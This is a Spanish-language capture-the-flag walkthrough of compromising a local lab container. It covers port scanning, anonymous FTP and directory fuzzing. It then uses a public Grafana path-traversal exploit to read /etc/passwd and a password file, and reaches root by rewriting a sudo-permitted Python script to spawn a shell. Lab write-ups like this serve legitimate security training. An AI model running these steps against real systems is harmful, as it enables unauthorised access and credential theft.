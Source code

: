 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh move.tar
```

![Pasted image 20250201164755](https://github.com/user-attachments/assets/cfac872a-b758-463b-bc86-7f376dd9b149)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250201165014](https://github.com/user-attachments/assets/2cb407bf-4769-4be1-9dbd-39fd4d5c67f4)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250201165105](https://github.com/user-attachments/assets/fc13e4d3-0437-45fe-a68b-6efa69ea5d7f)

```Bash
anonymous
```

![Pasted image 20250201165118](https://github.com/user-attachments/assets/5acce6a0-feff-44f5-b18a-abd90ac28b51)

```Bash
'blank'
```

![Pasted image 20250201165137](https://github.com/user-attachments/assets/a30e09d6-1cca-42eb-bd03-2effe2bfd9c2)

```Bash
ls
```

![Pasted image 20250201165150](https://github.com/user-attachments/assets/5cfd4356-be04-4509-803e-36cf8261416c)

```Bash
cd  mantenimiento
```

![Pasted image 20250201165252](https://github.com/user-attachments/assets/b8b3e50b-9468-412f-a060-99843ea98bcf)

```Bash
ls
```

![Pasted image 20250201165412](https://github.com/user-attachments/assets/39cc7d92-a790-4d40-8cef-6b44e2a65d0a)

```Bash
get database.kdbx
```

![Pasted image 20250201165427](https://github.com/user-attachments/assets/f44a0d20-8c19-4867-8994-b4ab4b5a43be)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250201171435](https://github.com/user-attachments/assets/2090a9a1-6255-4394-8ad9-4e17c36e0b46)

Nos metemos en la web:

![Pasted image 20250201171446](https://github.com/user-attachments/assets/fcbf9cf9-b87f-41db-a89f-7f45d92fb77f)


Nos dice una ruta secreta.

Nos metemos en la web del puerto 3000:

![Pasted image 20250201174454](https://github.com/user-attachments/assets/e39d3460-ae06-494c-baa4-b4020d620a4c)

Encontramos un **Grafana**.

Buscamos un exploit con **searchsploit** para el Grafana:

```Bash
searchsploit grafana
```

![Pasted image 20250201175601](https://github.com/user-attachments/assets/75617ed6-82fa-4751-a085-47625015e51f)

```Bash
searchsploit -m multiple/webapps/50581.py
```

![Pasted image 20250201175622](https://github.com/user-attachments/assets/cc7cf511-34b8-4b67-896f-7d37877dd517)

```Bash
chmod +x 50581.py
```

![Pasted image 20250201175640](https://github.com/user-attachments/assets/f9f82f1e-082b-4cad-8fed-5575a4342f9d)

```Bash
python3 50581.py -H http://172.17.0.2:3000
```

![Pasted image 20250201180019](https://github.com/user-attachments/assets/1e1c7dce-af37-4254-b8d9-3e1d70c98089)

```Bash
/etc/passwd
```

![Pasted image 20250201181514](https://github.com/user-attachments/assets/47c8b959-2f76-41ed-b125-d0ae55539ad5)

```Bash
/tmp/pass.txt
```

![Pasted image 20250201180218](https://github.com/user-attachments/assets/426eed53-d228-4f5e-b7e7-b3e07b4a0cea)

freddy: t9sH76gpQ82UFeZ3GXZS

Nos conectamos con **SSH**:

```Bash
ssh freddy@172.17.0.2
```

![Pasted image 20250201181605](https://github.com/user-attachments/assets/c896877e-70a0-484b-b82c-8029394d8600)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250201181624](https://github.com/user-attachments/assets/ea683e3f-a229-4633-907b-e9952ba150c9)


```Bash
cd /opt/
```

![Pasted image 20250201183643](https://github.com/user-attachments/assets/28de88eb-1400-4572-ba5f-66df78e1b329)

```Bash
ls
```

![Pasted image 20250201183628](https://github.com/user-attachments/assets/628a5908-8b07-47c7-a6a3-0ef27d79aab3)

```Bash
cat maintenance.py
```

![Pasted image 20250201183705](https://github.com/user-attachments/assets/b5c4efb5-ecda-46b9-8993-6edecbfaaade)


```Bash
nano maintenance.py
```

![Pasted image 20250201183728](https://github.com/user-attachments/assets/91a7d8f3-ccdd-42e2-8ed6-ffe27953aafc)

```Python
import os

os.system("/bin/bash")
```
![Pasted image 20250201183806](https://github.com/user-attachments/assets/6ec1f3c4-fa22-49d6-8c72-fe368dbb75cd)

```Bash
sudo -u root /usr/bin/python3 /opt/maintenance.py
```

![Pasted image 20250201184254](https://github.com/user-attachments/assets/b4a3cc22-225a-48ef-9401-a4e8b503637d)


```Bash
whoami
```

![Pasted image 20250201184656](https://github.com/user-attachments/assets/0e5faa15-9c13-409b-8806-6bebe0f716a5)
